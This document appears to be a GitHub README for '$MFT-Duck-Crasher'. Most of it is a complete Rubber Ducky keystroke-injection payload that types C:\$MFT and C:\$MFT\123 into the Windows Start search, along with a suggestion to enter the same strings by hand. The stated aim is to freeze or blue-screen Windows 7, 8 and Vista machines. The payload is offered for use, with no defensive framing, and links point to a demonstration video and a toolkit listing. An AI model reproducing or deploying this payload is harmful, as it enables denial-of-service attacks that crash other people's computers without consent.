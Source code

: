 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability. <br>
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s

 <br/> 



<a href="https://codepen.io/JonnyBanana/pen/paQyKo
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 

<br/>

$MFT-Duck-Crasher Payload
<br/>
<br/>
REM works on w7 - w8 - Vista (and i think xp and earlier too)
<br/>
REM it uses a high delay to support even older computers
<br/>
DELAY 1000
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
REM the 2nd enter is to close the error
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>


You can also find the following payload in the official Duck Toolkit page in the "UserScripts" section at this address
https://ducktoolkit.com/viewscript/592e3784ac04af22f889b7e4/
                                                            
